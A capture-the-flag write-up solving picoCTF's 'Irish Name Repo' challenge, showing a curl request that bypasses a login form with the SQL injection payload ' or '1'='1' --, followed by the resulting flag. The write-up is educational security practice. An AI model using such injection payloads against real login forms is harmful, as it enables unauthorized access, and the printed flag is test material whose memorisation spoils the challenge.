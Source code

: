 # Irish Name Repo
## Question
> There is a website running at `http://2018shell.picoctf.com:52012` ([link](http://2018shell.picoctf.com:52012/)). Do you think you can log us in? Try to see if you can login!

## Hint
>There doesn't seem to be many ways to interact with this, I wonder if the users are kept in a database?

# Solution
The application has a menu on the left hand side. Clicking on it reveals an admin login page (http://2018shell.picoctf.com:52012/login.html), which has 2 fields: `username` and `password`.

The authentication form is vulnerable to SQL injection:
~~~~
$ curl -d "username=' or '1'='1' --&password=" -X POST http://2018shell.picoctf.com:52012/login.php
<h1>Logged in!</h1><p>Your flag is: picoCTF{con4n_r3411y_1snt_1r1sh_c0d93e2f}</p>
~~~~

# Flag
`picoCTF{con4n_r3411y_1snt_1r1sh_c0d93e2f}`
